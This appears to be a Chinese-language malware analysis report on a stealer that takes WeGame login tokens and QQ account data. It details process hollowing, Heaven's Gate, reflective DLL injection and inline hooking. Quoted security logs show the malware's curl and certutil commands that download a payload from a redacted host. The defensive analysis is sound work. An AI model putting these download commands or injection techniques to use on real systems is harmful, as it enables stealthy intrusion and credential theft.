# 窃密木马威胁情报分析报告：597c5e69c8542e8a771d94ce8592ad9f49cadcd3b5ead6d0ca23adfbc4a62488


[TOC]


## ⚠️ 免责声明 (Disclaimer)

**【郑重声明】** 本文档及其中包含的所有逆向分析过程、代码片段、伪代码和技术细节，**仅供网络安全防御研究、学术交流及反恶意软件技术探讨使用**。

为了避免被恶意利用及保护相关受害者，文中涉及的所有敏感信息（包括但不限于：C2 服务器 IP、域名、通信端口、特定业务标识符及相关真实路径）均已进行严格的**脱敏与打码处理**。

请读者严格遵守相关网络安全法律法规。**未经授权，任何人不得利用本文中探讨的技术手段进行任何形式的非法攻击、入侵或破坏活动。** 因读者滥用本文中提及的技术或情报所引发的任何直接或间接法律责任及后果，均由行为人自行承担，原作者对此不负任何法律连带责任。

**[Disclaimer]** The analysis, code snippets, and technical details provided in this article are strictly for **educational purposes, cybersecurity defense research, and malware analysis discussions**.

All sensitive Information of Compromise (IoCs), including but not limited to C2 IP addresses, domains, ports, and specific business identifiers, have been **redacted and obfuscated** to prevent malicious use and protect potential victims.

Readers must comply with all applicable cybersecurity laws and regulations. **Any unauthorized or illegal use of the techniques discussed in this article for malicious attacks or system compromises is strictly prohibited.** The author assumes no liability for any direct or indirect consequences, damages, or legal responsibilities arising from the misuse of the information contained herein.


## 1. 执行摘要与攻击流程

本报告针对捕获的最新高隐蔽性凭据窃取木马（SHA-256: `597c5e...`）进行了深度逆向分析。该恶意代码表现出 **高级水平的免杀与防御规避能力**，其最终战术目标为精准窃取腾讯 WeGame 平台的免密登录凭证（stpass/Token）及 QQ 账号信息。

攻击者构建了一条极其漫长且精密的多级“寄生”杀伤链，其完整攻击流程如下：

1. **权限提升**：母体启动后提权至 `SeDebugPrivilege`，并向 C2 发起强校验（哈希与签名双重验证）的网络请求，按需拉取加密载荷 `shell33.dll`。
2. **靶标搜寻与伪装环境：** 针对 64 位系统核心输入枢纽（`TextInputHost.exe` 或 `TabTip.exe`）进行筛选，并通过手动构造“环境块（Environment Block）”的方式隐蔽传递共享内存名，为后续 IPC 通信建立隐蔽信道。
3. **架构跃迁（天堂之门）：** 利用经典的 `Heaven's Gate` 技术，由 32 位母体强行拉起 64 位原生 `cmd.exe` 并挂起，实施**进程镂空（Process Hollowing）**，完美规避传统 32 位杀软的动态监控。
4. **无文件反射加载：** 镂空后的 64 位注入器（Injector64）将 `shell33.dll`（Reflective DLL）通过 Stephen Fewer 反射式注入技术，直接在 `TextInputHost.exe` 内存中展开并执行，全程无文件落地。
5. **按需加载武器空投：** 反射DLL本身不包含恶意代码，当它在 `TextInputHost.exe` 中运行时，会等待猎物上线。接着针对猎物向服务器请求一个对应的任务。服务器返回新的武器连接。反射DLL会解密这个新的武器，在内存中加载执行。对于Wegame，服务器会返回一个Rust编写的DLL。
6. **白名单滥用**：Rust 核心模块解密后，利用 `WinHTTP -> curl -> certutil` 的白名单降级容灾机制，定向针对 32 位的 WeGame 客户端，空投经过 NsPack 加壳的 32 位易语言终极窃密载荷。
7. **API 劫持与跨进程窃密：** 终极载荷利用 Inline Hook（拦截 `NtWaitForSingleObject`）将 PE 插件注入 WeGame。通过拦截窗口消息（`WH_CALLWNDPROC`，暗号 1124）实现隐蔽的 RPC 通信，操控 WeGame 自身在内存中实施特征码暴搜与凭据读取。
8. **数据外发与毁尸灭迹：** 成功窃取 Token、QQ 号及主机 IP/地域运营商信息后，打包回传至 C2，并立即执行自毁程序，抹除所有本地实体痕迹。





## 2. 攻击者画像与TTP

**1. 技术栈特征**

- 前沿免杀重构（Rust），攻击者熟练使用具有内存安全特性且极难被传统反编译器解析的 Rust 语言开发核心调度模块，并进行了符号剥离（Stripped）。
- 在最终的业务执行端，攻击者直接复用了中国游戏黑产圈极其成熟的易语言生态代码，并包裹了年代久远的 NsPack（北斗）压缩壳。这表明该组织拥有成熟的“供应链”，擅长将新时代的免杀载体与成熟的盗号业务逻辑进行缝合。

**2. 战术意图与行为模式**

- **强烈的“按需空投”与“阅后即焚”意识：** 采用云端模块化武器库，不仅严格校验签名防止武器被安全人员白嫖，且严格遵循“发现猎物 -> 空投武器 -> 窃密 -> 自毁”的用后即焚原则，极力缩短恶意代码在内存和硬盘上的暴露窗口。
- **“白加黑”信任链滥用：** 整个攻击链高度依赖系统白名单进程。利用 `cmd.exe` 作为架构跳板，利用 `TextInputHost.exe`（微软输入法核心）作为隐蔽驻留点，最终利用 `WeGame.exe` 本身作为代理，绕过游戏内核反作弊系统（如 TenProtect）的监控。

**3. MITRE ATT&CK 战术映射**

| **战术 (Tactics)**                   | **技术 (Techniques)**                              | **样本具体行为描述**                                         |
| ------------------------------------ | -------------------------------------------------- | ------------------------------------------------------------ |
| **执行 (Execution)**                 | T1055: Process Injection                           | 使用进程镂空（Process Hollowing）、反射型 DLL 注入及 Inline Hook 注入 WeGame。 |
| **防御规避 (Defense Evasion)**       | T1620: Reflective Code Loading                     | `shell33.dll` 完全在内存中反射加载，无文件落地。             |
| **防御规避 (Defense Evasion)**       | T1027: Obfuscated Files or Information             | 使用 NsPack 加壳，Rust 模块剥离符号，共享内存名动态拼接。    |
| **防御规避 (Defense Evasion)**       | T1127: Trusted Developer Utilities Proxy Execution | 滥用 `certutil.exe` 下载后续木马。                           |
| **凭据获取 (Credential Access)**     | T1003: OS Credential Dumping                       | 在 WeGame 内存中进行特征码搜索，通过指针偏移精准窃取 `stpass` 和 Token。 |
| **命令与控制 (Command and Control)** | T1071: Application Layer Protocol                  | 伪装成正常 HTTP 流量，使用 `AES-256-CBC` 加密 C2 通信。      |


## 3. 危害等级评估

综合评定：**极高危险**。

评估依据：

**直接引发财产损失：** 该木马直接针对游戏用户的资产。通过窃取免密登录凭据和感染主机的IP及运营商，攻击者可在异地瞬间接管受害者账号。

**极高的基础设施复用威胁：** 虽然本样本的最终载荷是针对 WeGame 的盗号插件，但其前端的“下载器+反射注入框架+模块化武器空投”设计极其通用。该组织随时可以通过 C2 服务器，将下发的武器替换为高危病毒木马甚至是勒索病毒或进行内网横向传播最终感染服务器。


## 4. 恶意行为深度逆向分析

### 初始化





该样本在被启动之后会首先尝试提升自己的权限，获取`SeDebugPrivilege` 调试权限，以便对高权限进程下手。




接着木马会向C2服务器请求任务，任务的结构如下：

```
GET ####### task_id=task_002 HTTP/1.1
Connection: Keep-Alive
{
  "module_name": "shell33.dll",
  "version": ,
  "download_url": ,
  "sha256": ,
  "signature": ,
  "target_process":
}
```

**木马在这里实现了完整的“加密签名校验“，只要哈希或者签名任意一个验证失败就不执行**。



首先会请求一个名为`shell33.dll`，这是一个加密的PE文件，包含了后续注入需要使用的payload。

> **Note**
>
> 在本篇报告中，**payload** 指恶意代码本身或者包含了恶意代码的文件。


在验证文件无误后会进入循环来寻找注入目标，该样本使用常规的进程快照方式`CreateToolHelp32Snapshot`来查询自己的受害者名单进程的PID



利用密码学中的已知明文攻击特征。所有的目标必定是 Windows 可执行文件，所以必然以 .exe 结尾。通过python脚本扫描这个二进制文件，发现了木马的猎物名单。



> **Note**
>
> 这两个进程是微软在 Windows 10 和 Windows 11 中重构输入框架后的核心枢纽。TextInputHost.exe (Windows 文本输入宿主)是现代 Win10/Win11 系统的核心输入模块。无论是物理键盘打字、调出表情面板 (Win + .)、还是使用云剪贴板 (Win + V)，数据都会流经这里。TabTip.exe (触摸键盘和手写面板服务)专门负责 Windows 的虚拟键盘（屏幕键盘）和手写输入。通过注入 TapTip.exe，无论是敲击物理键盘还是点按虚拟键盘都会被木马截获。

目前并未在样本中找到相关的恶意代码，通过后续的行为来看，木马选择这两个进程的其中之一只是为了更不那么引人注目实行更隐蔽的攻击。

在寻找目标时，**该样本会只筛选64位目标**



该样本使用了 **共享内存技术(一种跨进程通信技术)** 来传输Payload，拼接出一段动态的共享内存名称，之后会传入到下阶段载荷中。



该样本首先选择使用 **进程镂空** 技术进行下一阶段的转移。攻击者通过创建挂起进程、挖空其合法代码并填入恶意Payload的方式，实现了恶意代码在正常进程“躯壳”内的隐蔽运行。



在执行注入之后会向C2服务器上报自己的状态



木马为了防止自己对同一个目标进程重复注入（这会导致宿主崩溃，引发用户怀疑)，它在本地建立了一个“账本”。每次成功注入一个进程，它就会把那个进程的 PID追加写入到系统临时目录下的 `plugin_injected_pids.dat` 文件中。



### 进程镂空注入

> **Note**
>
> **进程镂空（Process Hollowing）**是一种高级的代码注入方式。攻击者通过先创建挂起一个合法的进程，然后将内部挖空，填入攻击者的恶意代码。这时，在任务管理器里看到的，是一个看起来非常正常的常见系统进程。但实际上，这个进程的身体里，已经完全变成了木马的恶意代码在运行。它的“外表”骗过了安全软件和用户的眼睛，而“内在”却在偷偷窃密、下载病毒或远程控制。


为了给傀儡进程传输信息，该样本使用了极为隐蔽的方式。它不直接的传递信息，而是通过继承当前环境块并构造新的环境块方式，将新构造的环境块变量传递给`CreateProcessW`函数。







>**Note**
>
>每个用户进程在启动的过程中，都需要指明一个环境块，环境块描述了进程所运行环境的各种信息。一般由操作系统自动提供，或者继承其父进程。这里恶意软件使用自己精心构造的环境块手动传递给子进程。这种传递方式使得很难查出被镂空进程的异常。即使查看命令行参数也不会发觉。


### 天堂之门

该样本精心选择了下面这个程序作为傀儡进程

```
C:\Windows\Sysnative\cmd.exe
```

由于该样本是32位的，当一个 **32位** 程序运行在 64位 Windows 系统（WOW64 子系统）上时，操作系统为了兼容性，会自动把对 `C:\Windows\System32` 的访问，重定向到 `C:\Windows\SysWOW64`（存放 32 位系统文件的地方）。如果它需要注入一段 64 位的 Shellcode，它强行需要调用 64位的原生 `cmd.exe`。在 32 位程序中，唯一能越过系统重定向、直接拿到 64 位原生系统文件的方法，就是使用虚拟路径 `C:\Windows\Sysnative\`

最终它拉起一个64位cmd进程并挂起。


该样本使用了Windows 恶意软件开发界一个极其著名且传奇的高级免杀技术——“天堂之门”（Heaven's Gate）。


​	



>**Note**
>
>**天堂之门 (Heaven's Gate)** 是一种跨架构执行的技术。现在绝大多数电脑都是64位架构，得益于兼容性的设计，我们仍然可以运行那些32位程序。这使得大量的旧程序不需要再重新编写或者编译就可以直接在新CPU上运行。而64位CPU执行32位程序的代码需要使用一种称为 **段切换** 技术。而天堂之门正是利用了这一点，通过手动切换Windows提供的段，使得CPU执行64位代码。而传统的杀毒软件对于32位程序只会检测32位的代码行为。这一技术使得当时大多数杀毒软件都被致盲。


该木马在`cmd`的 0x140000000 地址处申请了176kb私有可读写执行内存。



在傀儡进程已经被塞入恶意代码之后，木马会设置傀儡进程主线程的起始地址，并恢复线程开始执行恶意代码。






在恶意代码被塞入傀儡进程后，并且傀儡进程还没开始执行前，可以直接dump出来恶意代码。



如果dump出这块内存，会发现这个PE的`AddressOfEntryPoint`也指明了程序的入口地址`0x140002340`。即父进程只是将新线程的入口放在程序的原始入口点。




通过字符串提取工具得到了以下信息



这些信息已经说明这个傀儡进程只不过是一个64位的注入器，我们暂时称呼为 `Injector64` 。


### Injector64

**Injector64 **的唯一任务，就是把真正的恶意代码DLL注入到最终目标进程（上文中得到的TextInputHost.exe和TapTip.exe。而`MEMBRIDGE_INJECT_SECTION / PID / DLL`则是木马母体和傀儡进程之间的IPC密码。

使用`x64dbg`附加到这个进程镂空的`cmd.exe`，在`0x140002340` 中添加一个硬件断点（执行）。在`x32dbg`中放行已命中的`NtResumeThread`断点，即可命中这个64位注入器的入口地址。





通过对之前的`CreateProcessW`下断点，也可以看到母体与傀儡之间使用命令行参数才传递受害进程的PID。

```
Injector64.exe
-> OpenProcess(PID(TextInputHost.exe))
-> OpenFileMappingW(FILE_MAP_READ, FALSE, Local\\MemBridge3194814_0)
```

`Injector64`会首先使用OpenProcess(PID(TextInputHost.exe))来获取目标进程句柄。




结合调试器给出的API符号信息，可以在IDA中手动构建这些调用的API符号信息。



注入器的主要功能如下：



**如果当前进程中没有Payload就使用共享内存技术来获取Payload接着映射到当前进程空间，然后写入到目标进程并创建远程线程。如果存在Payload就直接写入到目标进程创建远程线程。**

在本例中Injector64调用了`OpenFileMappingW(FILE_MAP_READ, FALSE, Local\\MemBridge3194814_0)`来获取共享内存句柄。



### 反射DLL注入

在执行进程注入的函数中发现该注入器使用了 `Stephen Fewer`提出的 反射式注入技术，在构造完加载器反射DLL需要使用的信息之后就创建远程线程执行手动加载，这种不依赖系统API的方式使得该木马更难被检测到。




Injector64会在`TextInputHost.exe`中一段 212KB的可读写执行内存





在NtWriteVirtualMemory中下断点，RDX就是需要写入的内存地址，R8指向Injector64中的恶意DLL。正如刚刚在IDA中看到的，木马会将恶意的反射DLL注入到`TextInputHost.exe`中

加载器的主要工作内容如下



> **Note**
>
> **Stephen Fewer的反射式DLL注入**  恶意DLL自带一个名为 `ReflectiveLoader` 的函数，它像一个内置的“微型装载机”，负责完成系统加载器的工作。整个攻击过程没有任何字节写入硬盘，完全在内存中进行，从根本上规避了基于文件扫描的传统杀毒软件。不使用 `LoadLibrary` 等标准API，操作系统对此类加载行为毫不知情，因此不会在内部的模块列表（如PEB/LDR）中留下任何记录。**对抗进程监控**：由于成功规避了系统记录，用Process Explorer这类常规工具查看进程加载的DLL列表时，也无法发现注入的恶意模块


**Shell33.dll 反射DLL**

DllEntryPoint会跳转到DllMain函数



在DllMain函数中创建新线程去执行恶意代码。反射DLL会首先上报自己的状态，并记录日志信息。然后创建一个监控线程。这个监控线程会向C2服务器请求任务，并通过服务器下载加密的Payload（以DLL的形式）

反射DLL使用`AES-256-CBC-[PKCS#7]`加密算法，解密函数利用Windows CNG (Cryptography Next Generation) API，IV和AES主密钥都通过栈构造，而不是硬编码在文件当中。在解密之后就摧毁这些信息。



反射DLL采用“按需加载”模块化插件执行。生命周期为 “请求新恶意 DLL -> 获取导出函数 -> 执行 -> 销毁”。这种设计让反射DLL本身变得异常干净（只包含一个扫描器和下载器），所有的核心窃密逻辑都被剥离到了云端，只有在“猎物”出现时，武器才会被空投下来。



```
+-------------------------------+                   +-------------------------------+
|          受害者主机             |                   |         云端 C2 服务器         |
|                               |                   |                              |
|  反射 DLL (极简加载器)           |                   |       [ 加密武器库 ]           |
|  ┌─────────────────────┐      |     ① 发现猎物      |                              |
|  │ • 扫描器 (环境检查) │         |     请求插件       |   Wegame盗号 (AES加密)         |
|  │ • 下载器 (网络通讯)  │        | ──────────────>   |   恶意模块 1 (AES加密)         |
|  └─────────────────────┘      |                   |   恶意模块 2  (AES加密)         |
|            |                  |     ② 返回加密      |                              |
|            |                  |     DLL 载荷       |                              |
|            v                  | < ─ ─ ─ ─ ─ ─ ─   |                               |
|   ┌─────────────────────┐     |                   +-------------------------------+
|   │ ③ AES 解密 (内存)    |      |
|   │ ④ 获取导出函数        |      |
|   │ ⑤ 执行核心窃密        |      |  
|   └─────────┬───────────┘      |
|             |                  |
|             v                  |
|   ┌─────────────────────┐      |
|   │ ⑥ 任务完成,自我销毁    |      |   <-- 不留任何文件或模块痕迹
|   │ (内存擦除)           |      |
|   └─────────────────────┘     |
|                               |
|   ● 本体干净：无窃密代码          |
|   ● 按需空投：用后即焚           |
+-------------------------------+
```

黑客的武器模块都采用了同一种设计，所有的模块都只导出一个函数，在解密完成后执行导出的 `RunPayload` 


### 针对Wegame的武器空投



在调试器中可以看到，Wegame就是木马的名单上的猎物之一。




木马检测到wegame运行之后会向云端武器库发送一个请求，云端服务器返回的数据解密后的内容如下：

```
{
  "tasks": [
    {
      "keyword": "wegame",
      "dll_url": "[请求的DLL的URL]"
    }
  ],
  "listen_addr": "0.0.0.0:8000"
}
```

云端服务器返回武器库的端口和URL。木马会再次向云端服务器发起请求等待服务器派发下一阶段的武器。新派发下来的程序是一个Rust语言开发的DLL。并且由于**符号剥离**，使得传统的杀毒软件更难以检测。


> Note
>
> Rust是一门新兴的内存安全语言，常用于底层开发或后端开发。现在由于其自身独特的特性使得传统反编译器难以分析，现在常被应用于免杀和恶意代码开发中。

所有的核心代码都被作者塞到了一个函数中。

它首先使用了 CreateWaitableTimerExW 让线程休眠，并在休眠前后调用高精度计时器 QueryPerformanceFrequency 来计算真实的逝去时间。如果发现“时间流逝的速度不对劲”，就会直接挂起或退出，以此逃避沙箱的动态行为捕获。



接着使用Winhttp请求下一阶段的载荷




请求失败立马转移到备选方案curl



最终方案 certutil



以下日志清晰地揭示了木马的行为

```
防护项目：特殊系统目录
目标文件：C:\Program Files\Common Files\System\demo.exe
操作结果：已阻止
进程ID：8576
操作进程：C:\Windows\System32\curl.exe
操作进程命令行："C:\Windows\System32\curl.exe" -fSL --connect-timeout 30 --max-time 300 -A Mozilla/5.0 -o "C:\Program Files\Common Files\System\demo.exe" https://[URL]/demo.exe
父进程ID：9160
父进程：C:\Windows\SystemApps\MicrosoftWindows.Client.CBS_cw5n1h2txyewy\TextInputHost.exe
父进程命令行："C:\Windows\SystemApps\MicrosoftWindows.Client.CBS_cw5n1h2txyewy\TextInputHost.exe" -ServerName:InputApp.AppXk0k6mrh4r2q0ct33a9wgbez0x7v9cz5y.mca
```

```
防护项目：利用Certutil下载可执行文件
执行文件：C:\Windows\System32\certutil.exe
执行命令行："C:\Windows\System32\certutil.exe" -urlcache -split -f https://[URL]/demo.exe "C:\Program Files\Common Files\System\demo.exe"
操作结果：已阻止
进程ID：9160
操作进程：C:\Windows\SystemApps\MicrosoftWindows.Client.CBS_cw5n1h2txyewy\TextInputHost.exe
操作进程命令行："C:\Windows\SystemApps\MicrosoftWindows.Client.CBS_cw5n1h2txyewy\TextInputHost.exe" -ServerName:InputApp.AppXk0k6mrh4r2q0ct33a9wgbez0x7v9cz5y.mca
父进程ID：920
父进程：C:\Windows\System32\svchost.exe
父进程命令行：C:\Windows\system32\svchost.exe -k DcomLaunch -p
```


### 最终武器

最终武器是一个32位的PE程序，这个程序易语言编写的，并被NSP(NsPack Compressor)加壳。



64 位的高级 Rust 下载器，最后却下发了一个 32 位的上古 NsPack 压缩包。 背后的原因在于wegame本身仍然是32位，所以如果要针对wegame进行攻击，那必须也使用32位的程序来进行。这也为后面的注入埋下了伏笔。与传统的直接读内存或打开共享内存不同的是，这个木马使用了注入的方式，并结合窗口消息hook来进行精准的窃密与内存获取。

该进程首先会进入无限循环来等待wegame进程尝试获取PID。



木马会在内存中释放一个高强度混淆的HD_Process.dll，这个DLL负责执行wegame读内存的操作。



首先它会向wegame中写入一段`0x82A` 大小的shellcode和一个大小为`0x19E00 `的DLL文件。这个shellcode负责进行手动加载DLL文件。在注入方式的选择中，木马选择了 “内联挂钩（Inline Hook）” 触发的被动式注入技术。

木马首先找到wegame进程中的  `NtWaitForSingleObject`函数，然后调用 `WriteProcessMemory`，只向这个 API 的头部写入 **5 个字节**：`E9 XX XX XX XX`（汇编指令 `JMP <Shellcode的地址>`）。WeGame 的某个正常线程在运转时，毫无防备地调用了`NtWaitForSingleObject`，立即去执行木马的shellcode。在shellcode执行完毕后再跳回原本要执行的代码。当DLL文件被加载完毕之后，木马又会调用 `WriteProcessMemory` 恢复被hook的API。在调试器中的日志记录如下

 ```
 [WPM 写入拦截] 目标地址: F0000 | 本地源数据区: 2850000 | 写入大小: 82A 
 
 [WPM 写入拦截] 目标地址: 100000 | 本地源数据区: 2850830 | 写入大小: 19E00 
 
 [WPM 写入拦截] 目标地址: 77173200 | 本地源数据区: 19FD14 | 写入大小: 5 
 
 [WPM 写入拦截] 目标地址: 77173200 | 本地源数据区: 19FD1C | 写入大小: 5 
 ```

**注入到wegame的DLL**



设置自己的窗口消息回调



当消息码是木马自定义的，就使用命令执行中心去解析处理



通过逆向分析得到的消息结构体的大致定义如下

```c
struct CommandPacket
{
    DWORD CommandId;        // 0x00: 命令码
    DWORD Unk04;            // 0x04: 
    DWORD Unk08;            // 0x08: 
    DWORD Unk0C;            // 0x0C: 
    DWORD ResultCount;      // 0x10: [lp+2] StartAddress 返回的采集数据个数
    DWORD Unk14;            // 0x14: 
    ULONG64 ModuleBase;     // 0x18: 
    DWORD SizeOrResult;     // 0x20: 
    DWORD Unk24;            // 0x24: 
    DWORD TargetPid;        // 0x28: 
    DWORD Unk2C;            // 0x2C: 
    ULONG64 SuccessFlag;    // 0x30: [lp+6] 线程执行成功标志 (置1)
    char NameBuffer[256];   // 0x38: 字符串缓冲区 (256字节)
    DWORD ResultArray[1024];// 0x138: [lp+39] 采集到的结果数组 (由 StartAddress 填充)
};
```


由木马释放在木马本体中存在的那个高强度混淆的DLL会”导出“几个函数。木马母体就是通过控制这几个函数来进行窃密的。

```c
HD_SearchCodeFirst();
HD_SearchCodeCount();
HD_SearchCodeNext();
HD_ReadInt();
HD_ReadMemory();
......
```


当木马需要读取内存，就调用HD_Process.dll（本体中存在的那个高强度混淆的DLL）。这个DLL会根据不同的功能(比如HD_SearchCodeFirst, HD_ReadMemory)构造CommandPacket，调用SendMessageA向Wegame被hook的窗口句柄发起消息。Wegame接收到这个消息之后就调用木马分发器函数，分发器解析消息传递给命令执行中心，执行对应的功能，并通过`OpenProcess, WriteProcessMemory`向木马母体写入数据。这样就实现了跨进程的数据传输。

木马的wegame凭据扫描主体内容如下：






在获取完凭证信息之后，木马获取当前机器的IP和大致位置都打包发送给黑客的服务器





| 字段                | 作用                                     |
| ------------------- | ---------------------------------------- |
| **user=**           | 目标QQ账号                               |
| **`pass=&stpass=`** | 单点登录的核心凭证                       |
| **token=**          | 设备/环境验证码                          |
| **ip=&region=**     | 使用同城同运营商代理避免账号异地登陆锁定 |
| **code=**           | 可能为渠道分成代码                       |


### 毁尸灭迹

**最后木马删除自身防止被取证。**


## 5. IoCs

1. 主机层指标 (Host/File IoCs)

| **指标类型**  | **真实指标**                                                 | **关联文件 / 备注**        |      |
| ------------- | ------------------------------------------------------------ | -------------------------- | ---- |
| **SHA-256**   | `597c5e69c8542e8a771d94ce8592ad9f49cadcd3b5ead6d0ca23adfbc4a62488` | `update.dll` (母体启动器)  |      |
| **SHA-256**   | `2de446336d6e887c4a1550e9a75c4db779cb953012dfde5fdf68f376badf9697` | demo.exe (最终武器)        |      |
| **SHA-256**   | `4bf8cb30858e6c8ae4edbb1053c5e835f027af3a46c7df218cb05c272c4acafe` | 注入 WeGame 的内存读取插件 |      |
| **File Path** | `C:\Program Files\Common Files\System\demo.exe`              | 易语言木马持久化隐藏路径   |      |
| **File Path** | `%TEMP%\plugin_injected_pids.dat`                            | 注入记录账本文件           |      |
|               |                                                              |                            |      |

2. 网络层指标 (Network IoCs)

​	**暂不提供**